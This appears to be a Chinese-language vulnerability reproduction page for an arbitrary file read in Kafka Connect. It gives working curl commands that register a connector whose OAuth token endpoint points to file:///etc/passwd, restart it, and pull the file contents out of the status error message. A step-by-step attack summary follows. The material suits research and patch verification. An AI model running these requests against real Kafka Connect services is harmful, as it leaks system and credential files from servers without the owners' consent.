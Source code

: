 #### 创建恶意连接器

```bash
curl -X POST http://localhost:8083/connectors \
  -H "Content-Type: application/json" \
  -d '{
    "name": "test-file-read",
    "config": {
      "connector.class": "org.apache.kafka.connect.mirror.MirrorHeartbeatConnector",
      "heartbeats.topic.replication.factor": "1",
      "replication.factor": "1",
      "source.cluster.alias": "source",
      "target.cluster.alias": "target",
      "source.cluster.bootstrap.servers": "kafka:9092",
      "target.cluster.bootstrap.servers": "kafka:9092",
      "topics": ".*",
      "groups": ".*",
      "sync.group.offsets.enabled": "true",
      "emit.heartbeats.enabled": "true",
      "producer.override.sasl.mechanism": "OAUTHBEARER",
      "producer.override.security.protocol": "SASL_PLAINTEXT",
      "producer.override.sasl.oauthbearer.token.endpoint.url": "file:///etc/passwd",
      "producer.override.sasl.jaas.config": "org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required;",
      "producer.override.sasl.login.callback.handler.class": "org.apache.kafka.common.security.oauthbearer.secured.OAuthBearerLoginCallbackHandler"
    }
  }'
```

#### 重启连接器

```bash
curl -X POST http://localhost:8083/connectors/test-file-read/restart
```

#### 检查状态（文件内容会出现在错误信息中）

```bash
curl http://localhost:8083/connectors/test-file-read/status
```

#### 清理连接器

```bash
curl -X DELETE http://localhost:8083/connectors/test-file-read
```

## 漏洞原理

该漏洞利用了 Kafka Connect 在配置 OAuth Bearer Token 时的不当处理。当指定 `file://` 协议的 URL 作为 Token 端点时，Kafka Connect 会尝试读取本地文件内容，并在错误消息中泄露文件内容。

攻击步骤：
1. 创建恶意 MirrorHeartbeatConnector 配置
2. 在 `producer.override.sasl.oauthbearer.token.endpoint.url` 中指定 `file:///path/to/file`
3. 配置连接器连接到实际存在的 Kafka Broker（默认 kafka:9092）
4. 重启连接器触发文件读取
5. 从连接器状态的错误信息中提取文件内容
